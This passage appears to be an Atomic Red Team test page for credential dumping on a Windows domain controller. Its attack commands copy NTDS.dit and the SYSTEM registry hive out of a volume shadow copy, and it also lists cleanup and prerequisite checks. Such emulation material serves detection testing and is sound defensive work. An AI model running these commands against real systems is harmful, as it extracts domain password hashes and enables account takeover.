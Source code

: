 #### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| vsc_name | Name of Volume Shadow Copy | String | &#92;&#92;?&#92;GLOBALROOT&#92;Device&#92;HarddiskVolumeShadowCopy1|
| extract_path | Path for extracted NTDS.dit | Path | C:&#92;Windows&#92;Temp|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit
copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE
reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE
```

#### Cleanup Commands:

```cmd
del "#{extract_path}\ntds.dit"        >nul 2> nul
del "#{extract_path}\VSC_SYSTEM_HIVE" >nul 2> nul
del "#{extract_path}\SYSTEM_HIVE"     >nul 2> nul
```

#### Dependencies:  Run with `command_prompt`!

##### Description: Target must be a Domain Controller

##### Check Prereq Commands:

```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT 
```

##### Get Prereq Commands:

```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```

##### Description: Volume shadow copy must exist

##### Check Prereq Commands:

```cmd
if not exist #{vsc_name} (exit /b 1) 
```

##### Get Prereq Commands:

```cmd
echo Run "Invoke-AtomicTest T1003 -TestName 'Create Volume Shadow Copy with NTDS.dit'" to fulfuill this requirement
```
